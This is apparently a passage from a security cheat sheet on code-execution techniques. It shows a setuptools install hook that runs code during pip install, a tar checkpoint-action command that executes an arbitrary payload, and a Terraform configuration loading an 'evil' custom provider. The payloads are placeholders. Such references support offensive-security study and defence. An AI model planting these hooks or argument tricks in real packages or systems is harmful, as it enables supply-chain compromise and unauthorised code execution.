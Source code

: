 ```python
from setuptools import setup
from setuptools.command.install import install

class PostInstallCommand(install):
    def run(self):
        # Insert code here
        install.run(self)

setup(
    ...
    cmdclass={
        'install': PostInstallCommand,
    },
    ...
)
```

When `pip install` is run the `PostInstallCommand.run` method will be invoked.

References:
- [0wned - Code execution via Python package installation](https://github.com/mschwager/0wned)

# tar

## Checkpoints

A [checkpoint](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html) is a moment of time before writing nth record to the archive (a write checkpoint), or before reading nth record from the archive (a read checkpoint). [Checkpoints](https://www.gnu.org/software/tar/manual/html_section/checkpoints.html) allow periodically executing arbitrary actions.

```bash
$ tar cf archieve.tar --checkpoint=1 --checkpoint-action="exec=echo 'arbitrary payload here'" foo 
```

# terraform

## terraform-plan

Terraform relies on plugins called ["providers"](https://www.terraform.io/docs/language/providers/configuration.html) to interact with remote systems. Terraform configurations must declare which providers they require, so that Terraform can install and use them. 

You can write a [custom provider](https://learn.hashicorp.com/tutorials/terraform/provider-setup), publish it to the [Terraform Registry](https://registry.terraform.io/) and add the provider to the Terraform code.

```tf
terraform {
  required_providers {
    evil = {
      source  = "evil/evil"
      version = "1.0"
    }
  }
}

provider "evil" {}
```
